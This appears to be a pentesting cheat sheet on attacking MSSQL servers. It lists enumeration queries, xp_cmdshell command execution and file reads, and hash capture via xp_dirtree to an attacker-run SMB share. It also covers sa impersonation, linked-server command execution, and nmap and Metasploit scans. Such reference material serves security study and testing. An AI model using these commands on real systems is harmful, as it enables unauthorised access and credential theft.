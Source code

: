 # MSSQL

## About

<mark style="color:red;">**Microsoft SQL (MSSQL)**</mark>**&#x20;is Microsoft's SQL-based&#x20;**<mark style="color:purple;">**relational database**</mark>**&#x20;management system.** It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET. MSSQL have a lot of different targets. Default port is <mark style="color:yellow;">**1433**</mark> and <mark style="color:yellow;">**1434.**</mark> More about MSSQL Hacking you could read here [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

## **Authentication Mods**

**MSSQL** have 2 authentication mods: <mark style="color:yellow;">**windows authentication mode (default)**</mark> and <mark style="color:yellow;">**mixed**</mark>. Windows authentication mode is often referred as <mark style="color:yellow;">**integrated**</mark> because of high integration with AD and Windows. With this you could authenticate into database automatically if you have right user or member of right group. **Mixed mode** is supporting both **AD/Windows** authentication and **SQL** one.  <mark style="color:yellow;">**If we are specifying domain, it'll use Windows auth, if we don't specify domain, it'll use SQL auth.**</mark> We should use <mark style="color:green;">**`servername\\accountname`**</mark> for domain specification.&#x20;

## Databases

**MSSQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                         | Description                                                                                                                                                                                            |
| ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| <mark style="color:green;">**`master`**</mark>   | Tracks all system information for an SQL server instance                                                                                                                                               |
| <mark style="color:green;">**`model`**</mark>    | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| <mark style="color:green;">**`msdb`**</mark>     | The SQL Server Agent uses this database to schedule jobs & alerts                                                                                                                                      |
| <mark style="color:green;">**`tempdb`**</mark>   | Stores temporary objects                                                                                                                                                                               |
| <mark style="color:green;">**`resource`**</mark> | Read-only database containing system objects included with SQL server                                                                                                                                  |

## MSSQL Useful Commands&#x20;

**HackTricks:** [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#common-enumeration)

| Command                                                                                                                                                                                                                                                                                                                                                                                                                  | Description                                                                                  |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------- |
| <mark style="color:green;">**`impacket-mssqlclient carni17@13.13.13.13`**</mark>                                                                                                                                                                                                                                                                                                                                         | Connect to the MSSQL server.                                                                 |
| <p></p><pre class="language-sql"><code class="lang-sql">SELECT name FROM master.dbo.sysdatabases;
</code></pre>                                                                                                                                                                                                                                                                                                          | Show all databases                                                                           |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                                                                                                                                                                                                                                                                                  | Select one of the existing databases                                                         |
| <p></p><pre class="language-sql"><code class="lang-sql">SELECT * FROM &#x3C;databaseName>.INFORMATION_SCHEMA.TABLES;
</code></pre>                                                                                                                                                                                                                                                                                       | Show all available tables in the selected database                                           |
| <p></p><pre class="language-sql"><code class="lang-sql"><strong>select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
</strong></code></pre> | List users                                                                                   |
| <mark style="color:green;">**`select * from <table>;`**</mark>                                                                                                                                                                                                                                                                                                                                                           | Show everything in the desired table                                                         |
| <mark style="color:green;">**`xp_cmdshell 'whoami'`**</mark>                                                                                                                                                                                                                                                                                                                                                             | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ System command execution via **MSSQL** |
| <mark style="color:green;">**`SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`**</mark>                                                                                                                                                                                                                                                                                 | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                    |

## CMD Interacting

#### Linux

```bash
sqsh -S 13.13.13.13 -U carni17 -P 'superkek' -h
# We need to use GO for command executon and use each line for each part of command which start with verb
```

```bash
sqsh -S 13.13.13.13 -U SUPERSECRETDOMAIN\\carni17 -P 'superkek' -h 
# or we could use . if we don't know domain name
```

```bash
python3 mssqlclient.py Administrator@13.13.13.13
```

#### Windows

```bash
sqlcmd -S 13.13.13.13 -U carni17 -P superkek123
sqlcmd #If you are already in system
# We need to use GO for command executon and use each line for each part of command which start with verb
```

## Attacks

### **Capture MSSQL Service Hash**

```sql
EXEC master..xp_dirtree '\\13.13.13.13\amogus\'
OR
EXEC master..xp_subdirs '\\13.13.13.13\amogus\'
# Then use Responder or impacket-smbclient to make a fake server and intercept hash
```

### **Impersonating other users**

1. **Check what users can be impersonated**

<pre class="language-sql"><code class="lang-sql">SELECT distinct b.name
<strong>FROM sys.server_permissions a
</strong>INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
</code></pre>

2. **Check current role and user**

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

3. **Impersonating&#x20;**<mark style="color:green;">**`sa`**</mark>**&#x20;user**

```sql
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

### Check linked server

1. **Identify linked Servers**

```sql
SELECT srvname, isremote FROM sysservers
GO
```

There would be a server list, those with <mark style="color:purple;">**"1"**</mark> is remote, those with <mark style="color:purple;">**"0"**</mark> is linked.

2. **Check rights**

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [13.13.13.13\LINKEDSERVER]
GO
```

3. **Execute commands at linked server**

```sql
EXECUTE('') AT [13.13.13.13\LINKEDSERVER]
GO
```

If you have quotes in command, use double singe quotes for it (<mark style="color:purple;">**''example''**</mark>)

## Tips2Hack

1. **Nmap MSSQL** Script Scan

```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 13.13.13.13
```

2. **Metasploit** scan. We can user <mark style="color:green;">**`mssql_ping`**</mark> to get more useful info about **MSSQL** server.

```bash
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 13.13.13.13

rhosts => 13.13.13.13

msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 13.13.13.13:       - SQL Server information for 13.13.13.13:
[+] 13.13.13.13:       -    ServerName      = SQL-01
[+] 13.13.13.13:       -    InstanceName    = MSSQLSERVER
[+] 13.13.13.13:       -    IsClustered     = No
[+] 13.13.13.13:       -    Version         = 15.0.2000.5
[+] 13.13.13.13:       -    tcp             = 1433
[+] 13.13.13.13:       -    np              = \\SQL-01\pipe\sql\query
[*] 13.13.13.13:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

